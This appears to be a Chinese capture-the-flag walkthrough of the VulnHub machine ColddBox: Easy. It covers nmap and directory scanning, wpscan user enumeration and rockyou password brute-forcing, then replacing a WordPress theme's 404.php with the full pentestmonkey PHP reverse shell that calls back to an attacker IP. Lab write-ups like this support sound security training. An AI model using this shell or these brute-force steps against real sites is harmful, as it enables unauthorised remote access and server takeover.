

## 靶机地址

[ColddBox: Easy ~ VulnHub](https://www.vulnhub.com/entry/colddbox-easy,586/)


信息收集

nmap扫描

准备阶段

```
mkdir nmapscan
```

创建文件夹用来存放nmap扫描结果


主机探测

```
nmap -sn 192.168.1.0/24
```


确定靶机ip

192.168.1.6


端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.1.6 -oA ./nmapscan/ports
```


开放了

- 80 http
- 4512 未知


提取端口信息


详细结果扫描

```
nmap -sT -sC -sV -O -p 80,4512 192.168.1.6 -oA ./nmapscan/detail
```


分析

- 80 http
- 4512 ssh
- Ubuntu系统


80端口

访问192.168.1.6


```
Welcome to ColddBox, a machine designed by C0ldd , it is a very simple machine to solve with several ways to escalate privileges, which serves to reinforce concepts, without further ado, good luck and enjoy!

欢迎来到ColddBox，这是由C0ldd设计的机器，这是一台非常简单的机器，可以通过多种方式提升特权，旨在加强概念。事不宜迟，祝你好运，尽情享受！
```

提示是wordpress站点


目录扫描

```
dirsearch -u http://192.168.1.6/ -x 403,404
```




```
gobuster dir -u http://192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
```


分析结果，gobuster扫描出了一个/hidden目录，同时都扫描出了wordpress登录界面/wp-login.php 


先访问/hidden


```
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip

C0ldd，你更改了Hugo的密码，请你什么时候把它发给他，让他能继续上传他的文章。Philip
```


利用wpscan枚举用户信息

```
wpscan --url http://192.168.1.6/  -e u
```


- c0ldd
- philip
- hugo


爆破用户密码

```
wpscan --url http://192.168.1.6 -P /usr/share/wordlists/rockyou.txt
```


得到

- c0ldd:9876543210


登录后台


其中插件和模板内容我们可以修改


因此我们可以选择修改插件内容然后执行

或者模板注入


模板注入


将404.php内容替换为反弹shell脚本

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.3';  // CHANGE THIS
$port = 283;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>


```

本地开启监听


当我们触发404，也就是访问不存在的文件时，即可成功弹回shell